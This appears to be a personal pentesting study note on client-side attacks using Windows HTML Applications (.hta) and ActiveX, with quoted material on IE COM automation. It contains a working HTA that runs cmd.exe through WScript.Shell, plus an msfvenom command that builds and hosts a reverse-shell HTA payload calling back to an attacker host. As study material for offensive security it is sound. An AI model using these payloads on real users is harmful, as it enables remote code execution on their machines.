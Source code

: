 
# Client-Side-Attacks-HTML-Applications

## Leveraging HTML Applications
[HTML Applications](https://docs.microsoft.com/en-us/previous-versions//ms536496(v=vs.85)?redirectedfrom=MSDN), with file extension .hta can be excuted on a Windows Client with the `mshta.exe`. This is to allow Internet Explore to arbitrarily execute applications within itself rather than downloading and manual executing a remote executable. An attacker can run that within the context of the user to avoid security restrictions. [ActiveX](https://en.wikipedia.org/wiki/ActiveX) is deprecated software that found on legacy systems was controversial and [historically insecure](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=ActiveX) comparatively to other technologies, thus low hanging RCEs. Whereas [Edge](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=Edge) still vulnerable just less insecure also actively researched due to modern widespread default Windows Browser. HTML application are HTML with [[Useful_Javascript]] or [[Useful_Visual_Basic]], HTML application are excuted outseide the browser and can be used to execute legacy and dangerous features blocked by the Browser.

## ActiveX

ActiveXObjects can provide access to underlying OS commands, using Windows Script Host functionality or WScript to access the Windows Script Host Shell object. This can  be

```html

<html>
<head>

<script>

  var c= 'cmd.exe'
  new ActiveXObject('WScript.Shell').Run(c);
  
</script>

</head>
<body>

<script>
  
  self.close(); // Close addition window behind command prompt
    
</script>

	
</body>
</html>
```

Users that broswer to this page to access the file, IE pops: `Open, Save, Save As`, selecting `Open` will prompt a `Allow || Don't Allow` options to default enabled sandbox called `Protected Mode` *"A website wants to open web content using this program on your Computer"* stating that Name: Microsoft (R) HTML Application host, Publisher: Microsoft Windows. `Allow` will permit execution. Using MSFvenom we can turn the script above into an actual attack with reverse_shell.hta. 
```bash
sudo msfvenom -p windows/shell_reverse_tcp LHOST=$IP LPORT=$PORT -f hta-psh -o /var/www/html/reverse_shell.hta
```

This payload adds powershell commands to  `-NoProfile`, `WindowStyle hidden` and `-EncodedCommand`. The reason behind the `EncodedCommand` existing in Powershell is to not have to deal with escape characters, maybe you want automate a script in the background with `WindowStyle hidden`like run patching or AD policy updates and `-NoProfile` becuase maybe you just want to do some cli maths and don't want or need to authenicate yourself to do maths. All of these properties of powershell can be used, like many other for nefarious reasons.


## MSHTML.dll 

MSHTML.dll one of many [[Dynamic-Link-Library-Files]], which is specifically responsible as the Browser Engine, used regardless of IE being on the machine. From [LesFerch's Amazing Answer on Windows Forums](https://answers.microsoft.com/en-us/microsoftedge/forum/all/will-mshtaexe-default-to-edge-when-opening-an-hta/e6b278e3-e7d4-48a4-aff9-20e317e25a89):

*"Contrary to popular belief, Internet Explorer is still installed in Windows 11 and will remain in Windows 10. The only change is that in Windows 11 (and Windows 10 sometime after June 15, 2022) IE cannot be easily launched by the end-user. That is, attempting to directly run **iexplore.exe** will run **Edge** instead."*

IE can still be run via scripts using_ **_IE COM automation_**_. For example (LaunchIE.vbs):_
```vbscript
Set oIE = CreateObject("InternetExplorer.Application")

oIE.Visible = True

oIE.Navigate "about:blank" 'put your URL of choice here"
```

*"Code that uses **IE COM automation** will open IE and work as usual. Note that, for Windows 11, it must be build **22000.348** or higher (IE COM automation was broken in Windows 11 prior to the Nov 2021 update). Using Windows 11 (or Windows 10 after IE is "disabled"), any link in an **HTA**, using code such as **href** or **window.open,** will open in **Internet Explorer**. Using a computer, where Internet Explorer has been _completely removed_ via **Control Panel** **Add/Remove Features**, any link in an **HTA**, using code such as **href** or **window.open,** will not work. The **href** will do nothing and the **window.open** will generate an error. Therefore, you should NOT remove IE from Windows 10 or Windows 11. Web pages that are opened via an **iframe** in an **HTA** will continue to work in all cases. Unfortunately, many external web sites don't allow their content to be loaded in an iframe."*

## References

[ActiveX Wiki](https://en.wikipedia.org/wiki/ActiveX) 
[LesFerch's Amazing Answer on Windows Forums](https://answers.microsoft.com/en-us/microsoftedge/forum/all/will-mshtaexe-default-to-edge-when-opening-an-hta/e6b278e3-e7d4-48a4-aff9-20e317e25a89)
[CVE ActiveX](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=ActiveX)
[CVE Edge](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=Edge) 